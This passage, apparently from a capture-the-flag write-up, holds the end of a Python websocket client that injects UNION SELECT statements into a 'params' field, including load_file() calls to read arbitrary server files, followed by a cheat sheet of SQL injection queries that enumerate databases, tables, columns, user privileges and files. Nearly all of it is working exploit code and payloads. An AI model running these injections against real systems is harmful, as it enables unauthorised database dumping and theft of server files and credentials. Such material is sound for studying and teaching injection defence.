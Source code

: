 ```py
        json_data = json.loads(msg)
        payload = json.dumps({"message": "help", "token": json_data["token"]})
        if args.message:
            payload = json.dumps({"message": args.message, "token": json_data["token"]})
        elif args.params:
            if args.union:
                payload = json.dumps({"message": "available", "params": f"3 UNION SELECT ({args.params}),2", "token": json_data["token"]})
                # print(f"< {payload}")
                await ws.send(payload)
                msg = await ws.recv()
                json_data = json.loads(msg)
                rspn = json_data["debug"][5:-9].replace(',', '\n')
                print(rspn)
                exit(0)
            elif args.file:
                payload = json.dumps({"message": "available", "params": f"3 UNION SELECT (select load_file('{args.params}')),2", "token": json_data["token"]})
                # print(f"< {payload}")
                await ws.send(payload)
                msg = await ws.recv()
                json_data = json.loads(msg)
                rspn = json_data["debug"][5:-9]
                print(rspn)
                exit(0)
            else:
                payload = json.dumps({"message": "available", "params": args.params, "token": json_data["token"]})
        print(f"< {payload}")
        await ws.send(payload)
        msg = await ws.recv()
        print(f"> {msg}")

if __name__ == "__main__":
    try:
        if len(sys.argv) == 1:
            parser.print_help()
        else:
            asyncio.get_event_loop().run_until_complete(lets_talk())
    except KeyboardInterrupt:
        print(' KeyboardInterrupt')
```

* **Retrieve all Databases names:** `SELECT group_concat(schema_name) FROM information_schema.schemata`
* **Retrieve all tables of specific database:** `Select group_concat(table_name) from information_schema.tables where table_schema='<database_name>'`
* **Retrieve all columns of specific table:** `SELECT group_concat(column_name) from information_schema.columns where table_name ='tablename'`
* **Retrieve columns:** `SELECT group_concat(column1,":",column2) from <database_Name>.<table_Name>`
* **Check dbms users privileges:** `SELECT group_concat(grantee,':',privilege_type) FROM information_schema.user_privileges`
* **Read file:** `SELECT load_file('<file_name>')`**
